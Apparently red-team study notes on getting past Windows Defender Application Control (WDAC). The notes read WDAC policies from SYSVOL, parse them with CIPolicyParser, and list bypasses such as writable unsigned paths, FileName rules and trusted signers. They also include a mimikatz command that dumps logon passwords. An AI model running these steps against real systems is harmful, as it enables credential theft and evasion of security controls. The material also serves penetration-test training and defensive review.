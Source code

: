 ```
ps
mimikatz 3088 x64 sekurlsa::logonpasswords
```


## WDAC

As with ASR, the policies can be read from a machine to which they're applied, or remotely from the GPO.

```
ls \\acme.corp\SYSVOL\acme.corp\Policies\{9C02E6CB-854E-4DEF-86AB-3647AE89309F}\Machine\
```

In powershell to read:
```
Parse-PolFile .\Registry.pol
```
In beacon: This is usually in a world-readable location, so it can just be downloaded for offline review.
```
download \\acme.corp\SYSVOL\acme.corp\scripts\CIPolicy.p7b
```

[Matt Graeber](https://twitter.com/mattifestation) wrote a tool called [CIPolicyParser.ps1](https://gist.github.com/mattifestation/92e545bf1ee5b68eeb71d254cec2f78e), which can reverse this binary p7b format back into human-readable XML.
```
ipmo C:\Tools\CIPolicyParser.ps1
ConvertTo-CIPolicy -BinaryFilePath .\CIPolicy.p7b -XmlFilePath CIPolicy.xml
```

### Living off the land

The way to leverage a trusted Windows binary, script or library is to find one that isn't being blocked by the policy.  The [Ultimate WDAC Bypass List](https://github.com/bohops/UltimateWDACBypassList), is a great resource to cross-reference with.

### Wildcard filepaths

Write your binary in the filepath of tools that don't have signatures, like 7-zip:
in beacon:
```
copy ConsoleApp.exe "C:\Program Files\7-Zip"
"C:\Program Files\7-Zip\ConsoleApp.exe"
```

### FileName

In the WDAC is they allow on FileName we can set this in our .NET project

### Trusted Signers

Searching CA's for any that are for code signing and check their enrollment rights:
